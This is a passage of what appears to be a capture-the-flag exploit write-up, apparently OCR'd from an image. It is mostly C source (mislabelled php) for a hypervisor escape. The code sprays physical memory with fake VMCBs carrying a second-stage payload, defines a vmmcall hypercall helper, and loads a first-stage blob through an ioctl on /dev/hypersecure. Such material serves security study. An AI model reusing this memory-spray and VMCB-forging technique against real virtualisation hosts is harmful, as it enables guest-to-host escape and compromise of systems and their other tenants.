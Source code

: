 ```php

static void write_second_stage(void *data){
    memcpy(data, second_stage_bin, second_stage_bin_len);
}

static int hypercall(int nr, uint64_t arg1, uint64_t arg2, uint64_t arg3)
{
    int ret;
    asm volatile ("movl %1, %%eax\n"
        "movq %2, %%rdi\n"
        "movq %3, %%rsi\n"
        "movq %4, %%rdx\n"
        "vmmcall\n"
        "movl %%eax, %0"
        : "=r"(ret)
        : "r"(nr), "r"(arg1), "r"(arg2), "r"(arg3)
        : "%eax", "%rdi", "%rsi", "%rdx"
    );
    return ret;
}

int main() {
    int hyper_secure_fd;
    int ret;
    // Spray phisycal memory with fake VMCBs.
    size_t sz = 1024 * 1024 * 150;
    void *data = mmap(0, sz, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
    if (data == MAP_FAILED) {
        fprintf(stderr, "failed to map memory\n");
        return -1;
    }
    for (size_t i = 0; i < sz; i += 0x1000) {
        write_vmcb((unsigned char *)data + i);
        write_second_stage((unsigned char *)data + i + PAYLOAD_OFF);
    }
    if ((hyper_secure_fd = open("/dev/hypersecure", O_RDWR)) < 0) {
            fprintf(stderr, "Failed to open hyper-secure connection\n");
            exit(-1);
    }
    // Load blob and run sandbox.
    if ((ret = ioctl(hyper_secure_fd, 0x1337, first_stage_bin)) < 0) {
            fprintf(stderr, "Failed to load and run: %d. Errno: %d\n", ret, errno);
            exit(-1);
    }
    printf("OK!!!!");
    return 0;
}
```

### First\_stage
